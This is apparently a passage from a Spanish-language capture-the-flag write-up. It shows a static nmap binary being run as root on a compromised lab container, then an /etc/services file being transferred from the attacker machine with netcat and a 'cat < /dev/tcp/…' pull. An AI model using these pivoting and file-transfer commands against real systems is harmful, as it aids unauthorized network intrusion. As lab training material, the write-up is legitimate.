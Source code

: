 ```abap
MISC:
  -6: Enable IPv6 scanning
  -A: Enable OS detection, version detection, script scanning, and traceroute
  --datadir <dirname>: Specify custom Nmap data file location
  --send-eth/--send-ip: Send using raw ethernet frames or IP packets
  --privileged: Assume that the user is fully privileged
  --unprivileged: Assume the user lacks raw socket privileges
  -V: Print version number
  -h: Print this help summary page.
EXAMPLES:
  nmap -v -A scanme.nmap.org
  nmap -v -sn 192.168.0.0/16 10.0.0.0/8
  nmap -v -iR 10000 -Pn -p 80
SEE THE MAN PAGE (http://nmap.org/book/man.html) FOR MORE OPTIONS AND EXAMPLES
```

### Vamos a hacer la prueba con una de nuestras Ips para ver si nos funciona el nmap, pero vemos que nos sale un error

```abap
root@nodered:/tmp# ./nmap -p- --min-rate 3000 172.18.0.2

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-09-20 01:04 UTC
Unable to find nmap-services!  Resorting to /etc/services
Unable to open /etc/services for reading service information
QUITTING!
```

### Para resolver este error debemos copiarnos nuestro archivo services que se encuentra en /etc/ y vamos a realizarlo con el mismo procedimiento con nc

```abap
┌─[root@parrot]─[/etc]
└──╼ #ll services 
Permissions Size User Date Modified Name
.rw-r--r--   12k root 27 mar 17:32  services
┌─[root@parrot]─[/etc]
└──╼ #nc -nlvp 80 < services
listening on [any] 80 ...
connect to [10.10.14.116] from (UNKNOWN) [10.129.224.78] 42224
┌─[root@parrot]─[/etc]
└──╼ #md5sum services 
3975f0d8c4e1ecb25f035edfb1ba27ac  services
```

```abap
root@nodered:/etc# cat < /dev/tcp/10.10.14.116/80 > services 
^C
root@nodered:/etc# md5sum services 
3975f0d8c4e1ecb25f035edfb1ba27ac  services
```
